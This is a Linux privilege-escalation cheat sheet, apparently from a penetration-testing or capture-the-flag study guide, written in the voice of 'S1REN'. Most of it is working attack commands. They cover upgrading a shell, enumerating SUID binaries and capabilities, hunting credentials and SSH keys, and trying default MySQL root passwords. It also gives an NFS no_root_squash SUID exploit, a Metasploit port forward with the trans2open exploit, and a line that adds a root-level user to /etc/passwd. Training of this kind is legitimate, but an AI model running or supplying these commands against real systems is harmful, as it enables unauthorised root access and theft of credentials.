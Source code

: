 python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto' 
Ctrl + Z [Background Process] 
stty raw -echo ; fg ; reset 
stty columns 200 rows 200

S1REN would say: 
Various Capabilities? 
which gcc 
which cc 
which python 
which perl 
which wget 
which curl 
which fetch 
which nc 
which ncat 
which nc.traditional 
which socat  

Compilation? (Very Back Burner) 
file /bin/bash 
uname -a 
cat /etc/*-release 
cat /etc/issue

What Arch? 
file /bin/bash  

Kernel? 
uname -a
Issue/Release? 
cat /etc/issue 
cat /etc/*-release
Are we a real user? 
sudo -l 
ls -lsaht /etc/sudoers
Are any users a member of exotic groups? 
groups <user>

Check out your shell's environment variables... 
env 
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
Users? 
cd /home/ 
ls -lsaht
Web Configs containing credentials? 
cd /var/www/html/ 
ls -lsaht  

SUID Binaries? 
find / -perm -u=s -type f 2>/dev/null
GUID Binaries? 
find / -perm -g=s -type f 2>/dev/null  

SUID/GUID/SUDO Escalation: 
https://gtfobins.github.io/
Binary/Languages with "Effective Permitted" or "Empty Capability" (ep): 
https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities 
Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null. 
getcap -r / 2>/dev/null

We need to start monitoring the system if possible while performing our enumeration... 
In other words: "S1REN... Is privilege escalation going to come from some I/O file operations being done by some script on the system?" 
https://github.com/DominicBreuker/pspy/blob/master/README.md 
cd /var/tmp/ 
File Transfer --> pspy32 
File Transfer --> pspy64 
chmod 755 pspy32 pspy64 
./pspy<32/64>  

What does the local network look like? 
netstat -antup 
netstat -tunlp  

Is anything vulnerable running as root? 
ps aux |grep -i 'root' --color=auto  

MYSQL Credentials? Root Unauthorized Access? 
mysql -uroot -p 
Enter Password: 
root : root 
root : toor 
root :

S1REN would take a quick look at etc to see if any user-level people did special things: 
cd /etc/ 
ls -lsaht 
Anything other than root here? 
• Any config files left behind? 
→ ls -lsaht |grep -i ‘.conf’ --color=auto
• If we have root priv information disclosure - are there any .secret in /etc/ files? 
→ ls -lsaht |grep -i ‘.secret’ --color=aut
SSH Keys I can use perhaps for even further compromise? 
ls -lsaR /home/
Quick look in: 
ls -lsaht /var/lib/ 
ls -lsaht /var/db/  
Quick look in: 
ls -lsaht /opt/ 
ls -lsaht /tmp/ 
ls -lsaht /var/tmp/ 
ls -lsaht /dev/shm/

File Transfer Capability? What can I use to transfer files? 
which wget 
which curl 
which nc 
which fetch (BSD) 
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

NFS? Can we exploit weak NFS Permissions? 
cat /etc/exports 
no_root_squash? 
https://recipeforroot.com/attacking-nfs-shares/  

[On Attacking Machine] 
mkdir -p /mnt/nfs/ 
mount -t nfs -o vers=<version 1,2,3> $IP:<NFS Share> /mnt/nfs/ -nolock 
gcc suid.c -o suid 
cp suid /mnt/nfs/ 
chmod u+s /mnt/nfs/suid 
su <user id matching target machine's user-level privilege.>  

[On Target Machine] 
user@host$ ./suid 
#
Where can I live on this machine? Where can I read, write and execute files? 
/var/tmp/ 
/tmp/ 
/dev/shm/
Any exotic file system mounts/extended attributes? 
cat /etc/fstab  

Forwarding out a weak service for root priv (with meterpreter!): 
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port. 
https://www.offensive-security.com/metasploit-unleashed/portfwd/  

Forwarding out netbios-ssn EXAMPLE: 
meterpreter> portfwd add –l 139 –p 139 –r [target remote host] 
meterpreter> background 
use exploit/linux/samba/trans2open 
set RHOSTS 0.0.0.0 
set RPORT 139 
run  

Can we write as a low-privileged user to /etc/passwd? 
openssl passwd -1 
i<3hacking 
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l. 
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd 
su siren 
id

Cron. 
crontab –u root –l  

Look for unusual system-wide cron jobs: 
cat /etc/crontab 
ls /etc/cron.*

Bob is a user on this machine. What is every single file he has ever created? 
find / -user miguel 2>/dev/null
Any mail? mbox in User $HOME directory? 
cd /var/mail/ 
ls -lsaht  

Linpease: 
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS  

Traitor: 
https://github.com/liamg/traitor  

GTFOBins: 
https://gtfobins.github.io/  

PSpy32/Pspy64: 
https://github.com/DominicBreuker/pspy/blob/master/README.md
